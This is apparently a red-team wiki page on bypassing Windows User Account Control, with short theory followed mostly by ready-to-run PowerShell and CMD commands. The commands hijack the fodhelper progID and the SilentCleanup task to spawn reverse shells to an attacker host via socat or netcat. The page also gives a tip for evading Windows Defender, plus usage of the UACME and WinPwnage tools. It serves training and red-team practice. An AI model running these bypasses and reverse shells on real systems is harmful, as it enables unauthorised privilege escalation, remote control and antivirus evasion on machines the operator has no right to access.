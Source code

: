 ```yaml
---
description: 'MITRE ATT&CK™ Impair Defenses: Disable or Modify Tools - Technique T1562.001'
---
```


# UAC Bypass

## Theory

The User Account Control [UAC](https://learn.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works). Its a Windows security feature that forces any new process to run in the security context of a non-privileged account by default..

### Integrity Levels

UAC is a **Mandatory Integrity Control** (MIC), which is a mechanism that allows differentiating users, processes and resources by assigning an Integrity Level (IL) to each of them. In general terms, users or processes with a higher IL access token will be able to access resources with lower or equal ILs. MIC takes precedence over regular Windows DACLs\
The following 4 ILs are used by Windows, ordered from lowest to highest:

| Integrity Level | Use                                                |
| --------------- | -------------------------------------------------- |
| Low             | Very limited permissions                           |
| Medium          | users and Administrators' filtered tokens.         |
| High            | Administrators' elevated tokens if UAC is enabled. |
| System          | Reserved for system use.                           |

### AutoElevate

some executables can auto-elevate, achieving high IL without any user intervention. This applies to most of the Control Panel's functionality and some executables provided with Windows. For an application, some requirements need to be met to auto-elevate:\
\- The executable must be signed by the Windows Publisher\
\- The executable must be contained in a trusted directory, like %SystemRoot%/System32/ or %ProgramFiles%/\
\- Executable files (.exe) must declare the autoElevate element inside their manifests. To check a file's manifest, we can use sigcheck.

Indeed we can leverage this executables to bypass UAC. Let's dive in:

{% hint style="danger" %}
if UAC is configured on the "Always Notify" level, fodhelper and similar apps won't be of any use as they will require the user to go through the UAC prompt to elevate.
{% endhint %}

## Practice

Microsoft doesn't consider UAC a security boundary but rather a simple convenience to the administrator to avoid unnecessarily running processes with administrative privileges. In that sense any bypass technique is not considered a vulnerability to Microsoft, and therefore some of them remain unpatched to this day.

### Using ProgID and AutoElevate binary to bypass UAC

We will create an entry on the registry for a new `progID` of our choice (any name will do) and then point the `CurVer` entry in the `ms-settings progID` to our newly created progID. This way, when `fodhelper` tries opening a file using the `ms-settings progID`, it will notice the `CurVer` entry pointing to our new `progID` and check it to see what command to use.

{% tabs %}
{% tab title="Powershell" %}
The exploit code is proposed by [V3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)

```bash
# Using socat
$program = "powershell -windowstyle hidden C:\tools\socat\socat TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"
# Or using netcat
$program = "powershell -windowstyle hidden C:\Windows\Temp\nc64 192.168.49.113 443 -e cmd.exe"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

{% hint style="danger" %}
Detected by Windowds Defender

Note that we removed the `.exe` extension in an attempt to evade Windows Defender (e.g. using `nc64` instead of `nc64.exe`). By omitting the extension, Windows will still execute the binary.
{% endhint %}

We may clean-up as follows

```powershell
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```
{% endtab %}

{% tab title="CMD" %}
V3ded exploit converted in CMD by TryHackMe

```bash
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
```
{% endtab %}
{% endtabs %}

### DiskCleanup Scheduled Task to bypass UAC

Originally discovered [discovered in 2017](https://www.tiraniddo.dev/2017/05/exploiting-environment-variables-in.html) by [James Forshaw](https://twitter.com/tiraniddo) from [Google Project Zero](https://googleprojectzero.blogspot.com/), the "DiskCleanup Bypass" take advantage of the `SilentCleanup` scheduled task, which is configured on Windows by default.This tasks can be started from a process with a `medium integrity level`, and then automatically elevates to a `high integrity level` since the `"Run with highest privileges"` option is enabled.&#x20;

**SilentCleanup launches `cleanmgr.exe` using the `%windir%` environment variable**. By modifying `%windir%`, we can control what gets executed.

{% tabs %}
{% tab title="PowerShell" %}
We can abuse it as follows

```bash
Set-ItemProperty -Path "HKCU:\Environment" -Name "windir" -Value "cmd.exe /K C:\Windows\Tasks\nc64.exe <IP> <PORT> & REM " -Force
Start-ScheduledTask -TaskPath "\Microsoft\Windows\DiskCleanup" -TaskName "SilentCleanup"
```

We may clean-up as follows

```powershell
Clear-ItemProperty -Path "HKCU:\Environment" -Name "windir" -Force
```
{% endtab %}

{% tab title="CMD" %}
We can abuse it as follows

```powershell
reg add "HKCU\Environment" /v windir /t REG_SZ /d "cmd.exe /K C:\Windows\Tasks\nc64.exe <IP> <PORT> & REM " /f
schtasks /run /tn "\Microsoft\Windows\DiskCleanup\SilentCleanup"
```

We may clean-up as follows

```powershell
reg delete "HKCU\Environment" /v windir /f
```
{% endtab %}
{% endtabs %}

### Automated Exploitation

{% tabs %}
{% tab title="UACME" %}
While [UACME](https://github.com/hfiref0x/UACME) provides several tools, we will focus mainly on the one called **Akagi**, which runs the actual UAC bypasses\
If you want to test for method 33, you can do the following from a command prompt, and a high integrity cmd.exe will pop up:

```bash
C:\tools>UACME-Akagi64.exe 33
```

| Method Id | Bypass technique                        |
| --------- | --------------------------------------- |
| 33        | fodhelper.exe                           |
| 34        | DiskCleanup scheduled task              |
| 70        | fodhelper.exe using CurVer registry key |
{% endtab %}

{% tab title="WinPwnage" %}
[WinPwnage](https://github.com/rootm0s/WinPwnage) (Python) implement multiple UAC bypass methods:

```bash
# Scan for UAC Bypass
main.py --scan uac

# UAC bypass using runas
main.py --use uac --id 1 --payload c:\\windows\\system32\\cmd.exe

# UAC bypass using fodhelper.exe
main.py --use uac --id 2 --payload c:\\windows\\system32\\cmd.exe

# UAC bypass using cmstp.exe
main.py --use uac --id 13 --payload c:\\windows\\system32\\cmd.exe
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/bypassinguac" %}

{% embed url="https://github.com/hfiref0x/UACME" %}

{% embed url="https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses" %}
